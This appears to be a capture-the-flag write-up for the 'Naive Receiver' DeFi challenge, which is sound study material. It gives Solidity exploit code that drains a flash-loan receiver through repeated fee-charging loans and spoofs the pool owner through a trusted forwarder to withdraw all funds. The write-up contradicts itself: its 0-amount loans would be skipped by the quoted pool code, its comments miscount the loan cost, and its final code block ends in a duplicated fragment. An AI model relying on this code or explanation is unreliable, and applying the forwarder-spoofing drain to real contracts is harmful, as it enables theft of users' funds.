 ## Challenge 2: Naive Receiver

### Vulnerability
The `NaiveReceiverPool` allows anyone to request flash loans on behalf of any receiver, and the receiver pays fees without validation.

### Exploit Code
```solidity
// In NaiveReceiver.t.sol - test_naiveReceiver() function
function test_naiveReceiver() public checkSolvedByPlayer {
    // Prepare the multicall: 10 flash loans + 1 withdraw
    bytes[] memory calls = new bytes[](11);

    // 10 flash loans (0 amount, but 1 WETH fee each)
    for (uint i = 0; i < 10; i++) {
        calls[i] = abi.encodeCall(
            pool.flashLoan,
            (address(receiver), address(pool.weth()), 0, "")
        );
    }

    // Withdraw all WETH from the pool to recovery address
    calls[10] = abi.encodeCall(
        pool.withdraw,
        (1000 ether, payable(recovery))
    );

    // Owner is the original deployer of the pool
    address owner = address(100); // Standard in this challenge

    // Use the forwarder to call multicall, so _msgSender() returns owner
    // We impersonate the forwarder to call execute()
    vm.startPrank(address(forwarder));

    // forwarder.execute(target, data, forwarderSender)
    forwarder.execute{value: 0}(
        address(pool),
        abi.encodeCall(pool.multicall, (calls)),
        owner // This gets appended to msg.data, making _msgSender() = owner
    );

    vm.stopPrank();

    // ✅ FlashLoanReceiver balance should now be 0
    // ✅ recovery should receive 1000 WETH from pool (fees stay in pool)
    // Challenge solved!
}   
```

### Why it works
- Flash loans can be triggered by anyone on behalf of any receiver — the `flashLoan` function does not restrict who can initiate a loan.
- The receiver pays a 1 ETH (WETH) fee for each loan, but it lacks access control or validation to prevent unauthorized or repeated calls.
- `multicall` enables bundling multiple flash loan calls and a final `withdraw` into a single transaction, ensuring atomicity and efficiency.
- By routing the `multicall` through the trusted `BasicForwarder`, we spoof the sender context so `_msgSender()` returns the pool owner, allowing the `withdraw` to succeed and transfer all pool funds to the recovery address.   




### Vulnerability Analysis
**File:** `src/naive-receiver/NaiveReceiverPool.sol`
**Vulnerable Code (lines ~76-85):**
```solidity
function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    // ✅ Validates token — only WETH supported
    if (token != address(weth)) revert UnsupportedCurrency();

    // 🔒 Loan only proceeds if amount >= fee (i.e., at least 1 WETH)
    // This prevents *some* abuse, but not all — see below
    if (amount >= FLASH_LOAN_FEE) {
        // 💸 Transfers the requested amount to the receiver
        // Even if amount == 1 WETH (minimum), the receiver will pay 2 WETH total (principal + fee)
        weth.transfer(address(receiver), amount);

        // 📈 Pool collects the fixed fee regardless of loan size
        totalFees += FLASH_LOAN_FEE;

        // 🔁 Receiver must implement onFlashLoan and return success
        // But it has **no way to validate** who initiated the loan
        if (receiver.onFlashLoan(msg.sender, token, amount, FLASH_LOAN_FEE, data) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        // 💣 Forces receiver to repay: principal + 1 WETH fee
        // This is the core exploit: even a 1 WETH loan costs the receiver 2 WETH
        // And since **anyone** can trigger it, an attacker can drain the receiver over multiple calls
        weth.transferFrom(address(receiver), address(this), amount + FLASH_LOAN_FEE);
    }
    // 🟡 If amount < FLASH_LOAN_FEE (i.e., < 1 WETH), the loan is silently skipped
    // But attacker can still use amount == 1 WETH to trigger the fee

    return true;
}   true;
}
```



